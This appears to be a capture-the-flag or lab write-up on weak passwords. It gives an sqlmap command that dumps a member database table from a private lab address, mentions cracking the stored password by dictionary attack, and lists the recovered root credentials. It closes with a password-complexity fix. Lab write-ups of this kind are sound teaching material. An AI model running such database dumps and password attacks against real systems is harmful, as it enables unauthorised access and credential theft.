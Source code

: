 # 11_Brute_force

We can brute force login by allowing / using simple, common passwords

## Method & Manipulation

sqlmap.py -u "http://192.168.1.70/index.php?page=member&id=5&Submit=Submit#" --dump -D Member_Brute_Force -T db_default
and use dictionary attack can use custom dictionary file if you want and decrypt the countersign of getTheFlag

Go to http://192.168.1.59/?page=signin  
Login with the details

```bash
username: root
password: shadow
```

## Resolve

User checks & validation to only allow complex passwords with a combination of upperase characters, numbers, symbols & lowercase characters.

## Resources

https://en.wikipedia.org/wiki/List_of_the_most_common_passwords
